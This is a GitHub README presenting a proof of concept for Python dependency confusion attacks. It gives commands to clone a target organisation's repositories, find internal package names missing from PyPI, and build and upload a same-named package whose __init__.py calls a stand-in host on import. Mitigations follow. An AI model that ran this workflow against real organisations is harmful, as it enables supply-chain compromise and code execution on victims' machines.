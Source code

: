<h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>

# Introduction

Dependency confusion is a supply chain vulnerability that arises when package managers inadvertently install malicious packages from public repositories instead of intended private ones. This issue is particularly prevalent in Python's package management system, where tools like `pip` may prioritize public packages over private ones if not properly configured. Exploiting this behavior can lead to severe consequences, including remote code execution (RCE) on target systems.

# Attack Overview

The typical workflow of a dependency confusion attack involves the following steps:

1. **Identifying Target Dependencies**: Attackers search for `requirements.txt` files in public repositories to identify internal package names used by organizations.

2. **Verifying Package Availability**: For each identified package, attackers check if it exists on the public Python Package Index [(PyPI)](https://pypi.org/project/pip/). This can be automated using tools like `httpx` to detect 404 responses, indicating the package is absent from PyPI.

3. **Publishing Malicious Packages**: Attackers create and publish malicious packages on PyPI using the same names as the internal packages. These malicious packages can be designed to execute arbitrary code upon installation.

4. **Triggering Installation**: When the target organization installs dependencies without strict index configurations, `pip` may fetch the malicious package from PyPI, leading to code execution within the organization's environment.

# Proof of Concept (PoC)

The repository provides a PoC demonstrating this attack vector:

- **Cloning Target Repositories**: Utilize tools like [ghorg](https://github.com/gabrie30/ghorg) to clone all repositories from a target organization.

```bash
ghorg clone <organization> -t <token>
```
- **Extracting Dependencies**: Search for `requirements.txt` files and extract package names.

```bash
find . -type f -name requirements.txt | \
xargs -n1 -I{} cat {} | \
sed 's/[><=~!].*//' | \
tr -d '[:space:]' | \
sort -u | \
xargs -I{} sh -c 'curl -s -o /dev/null -w "%{http_code} https://pypi.org/project/{}/\n" https://pypi.org/project/{}/' | \
grep "^404"
```
- **Creating Malicious Packages**: For each vulnerable package:

    - Set up the package structure:
    ```bash
    mkdir <package-name>
    ```
    ```bash
    cd <package-name>
    ```
    ```bash
    mkdir <package-name>
    ```
    ```bash
    cd <package-name>
    ```
    ```bash
    touch __init__.py
    ```
    - Insert malicious code into `__init__.py`:
    ```bash
    import requests
    # Example: Send a request to a monitoring URL
    requests.get("https://example.com/notify")

    ```
    - Save this file and back `cd..` from the directory
    - **Create** `setup.py` with appropriate metadata:
    ```bash
    from setuptools import setup, find_packages

    setup(
        name="<package-name>",
        version="0.0.1",
        author="Attacker Name",
        author_email="attacker@example.com",
        description="Malicious package for dependency confusion attack",
        packages=find_packages(),
        install_requires=['requests'],
    )
    ```
    - **Build** and **upload** the package to PyPI:
    ```bash
    python3 setup.py sdist bdist_wheel
    ```
    ```bash
    pip3 install twine
    ```
    ```bash
    twine upload dist/*
    ```

# Mitigation Strategies

To protect against dependency confusion attacks:

- **Configure Package Indexes**: Use `--index-url` and `--extra-index-url` options in `pip` to prioritize private repositories over public ones.

- **Implement Package Scopes**: Employ tools like `pip`'s upcoming features (as per [PEP 708](https://peps.python.org/pep-0708/)) to define trusted sources for specific packages.

- **Monitor and Audit Dependencies**: Regularly scan dependencies for anomalies and ensure that all internal packages are also present in private repositories to prevent unauthorized public versions.

- **Use Dependency Management Tools**: Utilize tools like Thoth to manage and resolve dependencies securely.

# Conclusion

Dependency confusion poses a significant risk to software supply chains. By understanding the attack vectors and implementing robust dependency management practices, organizations can mitigate the threat and secure their development environments.

### Connect me

If you have any queries, you can always contact me on [Linkedin](https://www.linkedin.com/in/anindyaghoshal/)
